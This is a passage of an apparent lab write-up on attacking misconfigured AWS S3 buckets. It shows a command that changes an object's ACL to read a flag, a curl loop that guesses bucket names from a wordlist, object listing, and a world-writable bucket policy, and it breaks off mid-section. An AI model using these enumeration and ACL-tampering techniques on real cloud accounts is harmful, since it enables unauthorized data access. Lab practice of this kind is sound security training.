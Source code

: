 ```bash
awsn s3api put-object-acl --key flag --bucket s3-secret-357630943120 --access-control-policy file://policy.json
```

This allows reading the `flag` object.

---

## Guessable Bucket

The lab gives an Ubuntu instance with an S3 endpoint. The buckets can be enumerated against a list of names by using a wordlist as follows &rarr;

```bash
for i in $(cat /usr/share/dirb/wordlists/small.txt )
do curl -s http://192.167.222.3:9000/$i | grep -vE "(NoSuchBucket)|(specified bucket is not valid)"; done
```

This gives the bucket as `secret` and the flag can be retrieved as follows &rarr;

```bash
curl -s http://192.167.222.3:9000/secret/FLAG
```

---

## Chaining Attacks

The lab gives an IAM user who has some access to S3. There are two buckets and the static files store and the main bucket contents can be retrieved using the following command &rarr;

```bash
# For static bucket, remove static to list for the other bucket
awsn s3api list-objects --bucket s3-file-load-static-431664597780 | jq '.Contents[] | .Key'
```

The bucket policy for the main website is hidden and not authorized for our user or anonymous users to edit however, the one for the static content is as follows &rarr;

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllObjectActions",
      "Effect": "Allow",
      "Principal": "*",
      "Action": [
        "s3:Get*",
        "s3:Put*",
        "s3:List*"
      ],
      "Resource": [
        "arn:aws:s3:::s3-file-load-static-431664597780/*",
        "arn:aws:s3:::s3-file-load-static-431664597780"
      ]
    }
  ]
}
```
